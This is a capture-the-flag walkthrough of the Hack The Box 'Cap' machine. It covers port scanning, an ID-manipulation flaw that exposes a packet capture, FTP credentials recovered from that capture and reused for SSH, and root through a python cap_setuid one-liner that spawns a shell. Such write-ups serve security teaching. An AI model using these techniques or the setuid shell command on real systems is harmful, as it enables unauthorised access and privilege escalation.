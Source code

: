![](cap_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.245 cap.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
... [snip] ...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* **Port 80** Running gunicorn server.
  * **[gunicorn](https://gunicorn.org/):** The Gunicorn "Green Unicorn" is a Python Web Server Gateway Interface HTTP server. It is a pre-fork worker model, ported from Ruby's Unicorn project.

# Foothold

## Parameter Manipulation

Going through the wep app found "Parameter Manipulation" in `/data/` which allows to access resources that should not be accessible.

![](screenshots/web-vuln.png)

changing value to `0` give access stored pcap file on the server

![](screenshots/file-0.png)

download the pcap file
```bash
❯ wget http://cap.htb/download/0
--2021-06-06 18:56:34--  http://cap.htb/download/0
Resolving cap.htb (cap.htb)... 10.129.119.229
Connecting to cap.htb (cap.htb)|10.129.119.229|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9935 (9.7K) [application/vnd.tcpdump.pcap]
Saving to: ‘0’

0               100%[=======>]   9.70K  --.-KB/s    in 0.002s  

2021-06-06 18:56:35 (4.39 MB/s) - ‘0’ saved [9935/9935]
```

## PCAP file analysis

open it in wireshark and view `tcp.stream eq 3` which contains ftp traffic packet.

![](screenshots/tcp-stream3.png)

and get ftp creds: `nathan:Buck3tH4TF0RM3!`

ftp have read access to file system but nothing intresting here.

![](screenshots/ftp-access.png)

but same creds work for ssh login because user "nathan" is in the box.

![](screenshots/ssh-login.png)

# Privesc

## python with `setuid` capability

Found `cap_setuid` capability in python3

![](screenshots/python-cap.png)

[capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html): Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0

**CAP_SETUID** Allow changing of the UID (set UID of root in you process). That means `setuid()` sets the effective user ID of the calling process.

and python have `setuid()` capability, that means python command allow user to set effective userID for its calling process.

![](screenshots/python-cap-demo.png)

gtfobins also have exploit for [python capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

**exploit:** `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```